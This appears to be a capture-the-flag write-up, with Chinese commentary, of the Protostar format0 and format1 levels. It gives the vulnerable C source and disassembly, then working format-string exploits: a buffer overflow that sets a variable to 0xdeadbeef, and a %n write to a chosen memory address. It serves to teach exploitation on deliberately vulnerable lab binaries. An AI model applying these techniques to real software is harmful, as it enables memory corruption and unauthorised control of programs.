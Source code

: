 # Format

## Format

### About

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

**Hints**

* This level should be done in less than 10 bytes of input.
* “Exploiting format string vulnerabilities”

This level is at /opt/protostar/bin/format0

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);

  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

`sprintf`指的是**字符串格式化命令**，主要功能是**把格式化的数据写入某个字符串中**。`sprintf` 是个[变参](https://baike.baidu.com/item/变参/9844833)函数。使用`sprintf` 对于写入`buffer`的字符数是**没有限制**的，这就存在了`buffer`溢出的可能性。

用objdump查看一下汇编代码，`target`变量在`ebp-0xc`处，`buffer`在`ebp-0x4c`处，二者相距`0x40`（64个字节），所以通过格式化字符串，**写入64个字符（从栈中格式化字符串的后面取值），后面跟上0xdeadbeef**，就能将`target`的值覆盖成`0xdeadbeef`。

```javascript
080483f4 <vuln>:
 80483f4:    55                       push   ebp
 80483f5:    89 e5                    mov    ebp,esp
 80483f7:    83 ec 68                 sub    esp,0x68
 80483fa:    c7 45 f4 00 00 00 00     mov    DWORD PTR [ebp-0xc],0x0
 8048401:    8b 45 08                 mov    eax,DWORD PTR [ebp+0x8]
 8048404:    89 44 24 04              mov    DWORD PTR [esp+0x4],eax
 8048408:    8d 45 b4                 lea    eax,[ebp-0x4c]
 804840b:    89 04 24                 mov    DWORD PTR [esp],eax
 804840e:    e8 ed fe ff ff           call   8048300 <sprintf@plt>
 8048413:    8b 45 f4                 mov    eax,DWORD PTR [ebp-0xc]
 8048416:    3d ef be ad de           cmp    eax,0xdeadbeef
 804841b:    75 0c                    jne    8048429 <vuln+0x35>
 804841d:    c7 04 24 10 85 04 08     mov    DWORD PTR [esp],0x8048510
 8048424:    e8 07 ff ff ff           call   8048330 <puts@plt>
 8048429:    c9                       leave
 804842a:    c3                       ret
```

你可以写入`64个A`或者其他的，或者可以通过`%64c`写入64个字符，后面在加上`deadbeef`。**$\(\)**是用来做**命令替换**的，先执行`$()`里面的命令，得到返回结果进行替换。

### Exp

```bash
user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde")
you have hit the target correctly :)

user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "%64c\xef\xbe\xad\xde")
you have hit the target correctly :)
```

## Format1

### About

This level shows how format strings can be used to modify arbitrary memory locations.

**Hints**

* objdump -t is your friend, and your input string lies far up the stack :\)

This level is at /opt/protostar/bin/format1

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);

  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

解决方案如下：我们确定目标变量的地址。我们以格式字符串传递此地址。格式字符串实际上是一个参数，将保存在堆栈中。然后，我们确定地址在堆栈中的位置，并使用`％k\$n`\(应该是%k$n的形式，但是由于输出的时候可以被转义，所以加上一个"\"\)，其中k是数字。

首先通过`objdump`查看符号表，可以看到target的地址是`0x8049638`，处于`bss段`。

```text
$ objdump -t format1
080483f4 g     F .text    00000028              vuln
08049638 g     O .bss    00000004              target
0804963c g       *ABS*    00000000              _end
00000000       F *UND*    00000000              puts@@GLIBC_2.0
08049630 g       *ABS*    00000000              _edata
080484aa g     F .text    00000000              .hidden __i686.get_pc_thunk.bx
0804841c g     F .text    0000001b              main
080482c0 g     F .init    00000000              _init
```

我们通过%p（以地址形式显示）打印栈中的内容。我们在后面发现了有`0x41414141`，`0x41`就是'`A`'的ascii值。

```text
$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('AAAAAAAA' + '%p-' * 150)")
AAAAAAAA0x804960c-0xbffff5d8-0x8048469-0xb7fd8304-0xb7fd7ff4-0xbffff5d8-0x8048435-0xbffff7b7-0xb7ff1040-0x804845b-0xb7fd7ff4-0x8048450-(nil)-0xbffff658-0xb7eadc76-0x2-0xbffff684-0xbffff690-0xb7fe1848-0xbffff640-0xffffffff-0xb7ffeff4-0x804824d-0x1-0xbffff640-0xb7ff0626-0xb7fffab0-0xb7fe1b28-0xb7fd7ff4-(nil)-(nil)-0xbffff658-0x90bcfb24-0xbaef4d34-(nil)-(nil)-(nil)-0x2-0x8048340-(nil)-0xb7ff6210-0xb7eadb9b-0xb7ffeff4-0x2-0x8048340-(nil)-0x8048361-0x804841c-0x2-0xbffff684-0x8048450-0x8048440-0xb7ff1040-0xbffff67c-0xb7fff8f8-0x2-0xbffff7ad-0xbffff7b7-(nil)-0xbffff982-0xbffff990-0xbffff9a4-0xbffff9c6-0xbffff9d9-0xbffff9e3-0xbffffed3-0xbfffff11-0xbfffff25-0xbfffff3c-0xbfffff4d-0xbfffff55-0xbfffff65-0xbfffff80-0xbfffff8d-0xbfffffc1-0xbfffffd4-0xbfffffe0-(nil)-0x20-0xb7fe2414-0x21-0xb7fe2000-0x10-0x178bfbbf-0x6-0x1000-0x11-0x64-0x3-0x8048034-0x4-0x20-0x5-0x7-0x7-0xb7fe3000-0x8-(nil)-0x9-0x8048340-0xb-0x3e9-0xc-(nil)-0xd-0x3e9-0xe-0x3e9-0x17-0x1-0x19-0xbffff78b-0x1f-0xbffffff2-0xf-0xbffff79b-(nil)-(nil)-(nil)-(nil)-(nil)-0x80000000-0x9dc2ee44-0x412db7ab-0xbe1a1728-0x694ebebc-0x363836-(nil)-(nil)-(nil)-0x662f2e00-0x616d726f-0x41003174-0x41414141-0x25414141-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-
```

通过多次尝试，我们找的了`BBBB`的对应位置，我们需要在`BBBB`填入`target的地址`，然后用`%n`将改地址写入内容。

`%k$x`表示要泄漏偏移k处4字节长的16进制数据，比如我输入`AAAA%3$08x`,就可以得到位于`format参数`下面第三个数据。

### exp

```text
$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('ABBBBCCC' + '%133\$p')")
ABBBBCCC0x42424242

$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('ABBBBCCC' + '%133\$p')")
ABBBBCCC0x42424242user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('A\x38\x96\x04\x08CCC' + '%133\$p')")
A8CCC0x8049638

$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('A\x38\x96\x04\x08CCC' + '%133\$n')")
A8CCCyou have modified the target :)
```

